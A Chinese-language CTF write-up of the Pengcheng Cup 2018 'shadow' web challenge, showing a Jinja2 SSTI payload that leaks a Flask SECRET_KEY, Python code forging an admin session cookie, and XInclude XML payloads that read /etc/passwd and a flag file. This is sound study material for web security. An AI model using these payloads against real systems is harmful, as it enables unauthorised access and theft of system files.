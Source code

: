 ```yaml
---
title: 鹏城杯2018WEB shadow题解
author: huasir
comment: true
date: 2019-02-12 23:30:43
tags: 
	- flask
categories:
	- web
---
```


### 前言
今天打完了鹏城杯，还是一脸懵逼，主办方疯狂放提示，选手疯狂懵逼。。。
我在一堆脑洞题之间还是看到了一道比较有意思的web题目，虽然最后也没出flag，但还是挺有感悟的。
<!-- more -->

### 题目描述
给你一个flask搭建的网站，除了登录注册之外也没发现什么功能， 注释里看到有`/upload`路径，但访问提示需要admin权限。又四处游荡发现几个js不存在，回显是：

![20190212154998561366780.png](https://img.5am3.com/20190212154998561366780.png)

看到这里，应该是有404页面的SSTI漏洞了，但是试了几次发现无法直接命令执行，只好寻求来读一些内置变量，`config`和`self`都被禁了，读了[这位大佬的文章](https://blog.csdn.net/qq_33020901/article/details/83036927)。可知，可以通过`{{ request.environ }}  {{ request.cookies }} {{ url_for.__globals__ }} {{ get_flashed_messages.__globals__ }}
`读到一些变量，其中` {{ url_for.__globals__['current_app'].config }}`可以读到`SECRET_KEY`

![20190212154998565995974.png](https://img.5am3.com/20190212154998565995974.png)

这样我们就可以来伪造flask的cookie，获得admin权限了。通过访问`{{ request.cookies}}`拿到cookie

![2019021215499856735385.png](https://img.5am3.com/2019021215499856735385.png)

拆开看看里面有啥

```python
from itsdangerous import *

s=URLSafeTimedSerializer("as/*d21as-+dhasod5a4s54:><*()dfdsf", salt="cookie-session",signer_kwargs={"key_derivation":"hmac","digest_method":"sha1"})
data = s.loads(".eJw9kMFqg0AQhl-l7DkHXdNLIAfLWjGwI8oamb2INabu6qagkTQb8u4dcuhhYGDm-4b5H6w5z_0ysN25nZZ-wxpzYrsHe_tiOwa8uqHPPPqRqrgh1xZsctOqo07e0RaRdhjlabXN68yDxUCKg9G2irQaJu3KSdZILO2rOJQeRiQO0iLE-jiiS361jQPpjg55cUdOM5eF2sGQK-m1-L6jAqcFeilKA-Iw0H2PPOE6xQgUjFrJAES1Z88N65b53Fx_xv7y_wKhIaRVBOLToC1HwsNcfEySVxxIq9PSguhCmSYB1EkgbbaV8f6lM0vTnpwh2XVeKZpL63pSDmu7mJlt2Lr08ysu9s6ef3KlazU.XAOwLQ.q-Gin27oj8k69vvulgiayMpFKJs")
print (data)
```

![20190212154998569398968.png](https://img.5am3.com/20190212154998569398968.png)

可以看到这里`is_admin`是`False`,改成`True`再打包起来就行了
```python
result = s.dumps({'_fresh': True, '_id': {' b': 'ZTM3ODI5NTdjYTIxN2I0YzU5ZjgzNjBmZjgwMDE5YzM3ODI0MzZhOTkwNzdmOWIyOTAzMWU5YzkxZDNmYmM5MGQyM2M4N2FkZDQ2NThlZmUyNzA5ZTUwMGVmZDI2NDE5ODZlM2NjNWQ0NmY5NmRlNTQwYjg2MmY0ZTgwYjBiNTI='}, 'csrf_token': {' b': 'NWFkNmQ2OTgwZmU5ZGMyNWYxMTdiNzBhZDBiMTIxNjcxYjllZWM1Yw=='}, 'is_admin': True, 'name': 'huasir', 'user_id': '5'})

print (result)
```
拿着这个去访问upload，然后可以上传文件。当然python直接上传貌似不能拿shell，试了几次发现上传XML文件有回显，但是上传常见的XXE payload会显示错误。

![20190212154998571710950.png](https://img.5am3.com/20190212154998571710950.png)

参考[这篇文章](https://www.freebuf.com/column/156863.html)可以看到用XInclude可以避开使用`ENTITY`关键字：
```xml
<?xml version="1.0"?>
<data xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///etc/passwd" parse="text"> 
</xi:include>
</data>
```
回显`/etc/passwd`内容

![20190212154998573865102.png](https://img.5am3.com/20190212154998573865102.png)

看到有个rq用户也有`bash`,读取其用户目录下的`.bash_history`可以看到flag文件的名字，遂构造payload：
```xml
<?xml version="1.0"?>
<data xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///home/rq/f123333333ag" parse="text"> 
</xi:include>
</data>
```
flag:
![20190212154998575010135.png](https://img.5am3.com/20190212154998575010135.png)

### 问题
一开始我失败的原因是我想用flask服务来得到cookie：
```python
from flask import Flask, session, escape, request
 
app = Flask(__name__)
app.secret_key = 'as/*d21as-+dhasod5a4s54:><*()dfdsf'
 
 
@app.route("/")
def index():
    if 'name' in session:
        return 'hello, {}\ncookie: {}'.format(escape(session['name']),request.cookies)
    return 'hello, stranger\n'

@app.route("/login")
def login():
	session['csrf_token'] = 'IjQ1ZTgwOGU3YWY5YmZjOGUwM2U1MDQ1OTUxODI0MmRhNDQyYTM0OTci.XANzdg.ljY0IMuCAb2ovypjBa5OvzegdDs'
    session['_id'] = 'bc00ab0feca90420847a2fc0ea2d0491ee7177c453d037a041383b6f4b434304eae5fa0a220dc0111abd963bbcca5c466b6303b0afacabf8544523cdbc83e7c4'
    session['user_id'] = '1'
    session['name'] = 'admin'
    session['is_admin'] = True
    session['_fresh'] = True
    return "Login success"
 
 
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)

```
但是这样的cookie能进入/upload页面，但是一传文件就又反馈`only admin can use it`，结束后我又试了两次，又行了?_?....蜜汁，这样应该是没有影响的。
可能是因为我把flask服务改到一个页面里了？？/px
```python
@app.route("/")
def index():
    session['csrf_token'] = 'IjQ1ZTgwOGU3YWY5YmZjOGUwM2U1MDQ1OTUxODI0MmRhNDQyYTM0OTci.XANzdg.ljY0IMuCAb2ovypjBa5OvzegdDs'
    session['_id'] = 'bc00ab0feca90420847a2fc0ea2d0491ee7177c453d037a041383b6f4b434304eae5fa0a220dc0111abd963bbcca5c466b6303b0afacabf8544523cdbc83e7c4'
    session['user_id'] = '5'
    session['name'] = 'huasir'
    session['is_admin'] = True
    session['_fresh'] = True
    if 'name' in session:
        return 'hello, {}\ncookie: {}'.format(escape(session['name']),request.cookies)
    return 'hello, stranger\n'
```
python2和python3起服务虽然结果不同，但都能用。